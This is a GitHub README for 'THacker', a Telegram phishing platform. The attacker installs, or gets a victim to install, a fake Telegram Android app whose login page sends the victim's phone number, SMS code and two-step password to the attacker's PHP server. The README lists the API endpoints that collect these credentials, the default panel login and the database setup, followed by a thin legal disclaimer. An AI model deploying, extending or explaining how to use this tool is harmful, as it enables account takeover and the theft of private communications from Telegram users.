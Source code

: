 # Telegram Hacker ` THacker `

### Android App
The Android app is Written in dart (Flutter) and the source code for that is 👇👇👇
[Android App source code](https://github.com/mikiyasET/Thacker/tree/master)

### What Is It?

THacker is a Phishing platform that can trick and get an account even if it's secured with two step verification. 
**Version 1.0**

## How it works

	It works with an android device so the victim must install the android app or the app can be installed by you in the device the app will look just like normal telegram app so the victim will think it's the normal telegram app he usually uses and when he open the app he will see the default telegram login page and Thacker comes here the app will communicate to Thacker not telegram server so all informations send by the user will be send to Thacker which is you   

# API Reference

- You can use `Postman` for testing purpose

	` Definition of Keywords in the URL `

	*Name of the device*							**[DEVICE]**
	*Name of the app* 								**[APP_NAME]**
	*Received id during the first request* 			**[ID]**
	*Phone number* 									**[PHONE]**
	*Version of the app* 							**[VERSION]**
	*SMS code* 										**[CODE]**
	*Password* 										**[PASSWORD]**

	`Keywords are  shown in brackets []`

	> https://example.com/thacker/api/access.php?device=[DEVICE]&app=[APP_NAME]&version=[VERSION]

	> https://example.com/thacker/api/phone.php?id=[ID]&phone=[PHONE]

	> https://example.com/thacker/api/code.php?id=[ID]&code=[CODE]

	> https://example.com/thacker/api/verify.php?id=[ID]

	> https://example.com/thacker/api/password.php?id=[ID]&password=[PASSWORD]

	> https://example.com/thacker/api/vpass.php?id=[ID]

## Language

> PHP

> Jquery

> Ajax


## Web Page Login Details

> ID			~		12345678
> Password		~		password


## Database

- There is a `telegram.sql` file you can use to import to the database

	` Database Info `

	*Host* 										`localhost`
	*User* 										`root`
	*Password* 									
	*Database Name*									`telegram`

# Legal disclaimer

Usage of Thacker for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. The Developer assume no liability and is not responsible for any misuse or damage caused by this program.


## Creator

- Mikiyas Lemlemu  [Web-Developer](Web-Developer)
	
	> [Facebook](https://facebook.com/mikiyaslemlemu)
	
	> [Telegram](https://t.me/m_miko)
	
	> [Github](https://github.com/mikiyasET)

	> [Email](mikiyaslemlemu@gmail.com)

## License & copyright

© Mikiyas Lemlemu <img width="10px" height="10px" src="https://img.icons8.com/metro/26/000000/marker.png"/> ETHIOPIA 🇪🇹

### Donate

[![ko-fi](https://www.ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/N4N51K3IH)


